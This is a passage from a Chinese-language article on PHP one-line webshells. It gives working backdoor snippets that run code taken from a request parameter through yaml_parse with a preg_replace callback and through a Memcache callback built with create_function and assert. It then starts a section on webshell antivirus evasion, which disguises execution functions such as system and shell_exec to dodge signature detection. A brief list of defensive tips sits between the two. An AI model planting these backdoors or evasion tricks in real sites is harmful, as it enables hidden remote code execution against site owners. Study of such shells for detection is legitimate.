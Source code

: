 ```php
<?php
$str = urlencode($_REQUEST['pass']);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));
```

还有php_memcached：

```php
<?php
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST['pass'], 11211, 0);
```



## 11.如何应对PHP一句话后门

我们强调几个关键点，看这文章的你相信不是门外汉，我也就不啰嗦了：

- 对PHP程序编写要有安全意识
- 服务器日志文件要经常看，经常备份
- 对每个站点进行严格的权限分配
- 对动态文件及目录经常批量安全审查
- 学会如何进行手工杀毒《即行为判断查杀》
- 时刻关注，或渗入活跃的[网络安全](http://www.uedbox.com/)营地
- 对服务器环境层级化处理，哪怕一个函数也可做规则



# 0x02webshell免杀

## 1. 执行函数

首先就是基于各类最常规的命令和代码执行函数的花样变形`如,拆分重组,动态执行,以此来躲避静态特征检测`,不过像有些高危函数默认就会被运维们禁掉,甚至高版本的php默认已经不让执行系统命令[如,php7],万一再开了安全模式,就更费劲了

php中一些常见的执行类型函数:

```
system()
exec()
shell_exec()
passthru()
proc_open()
`` 反引号执行系统命令
...
```


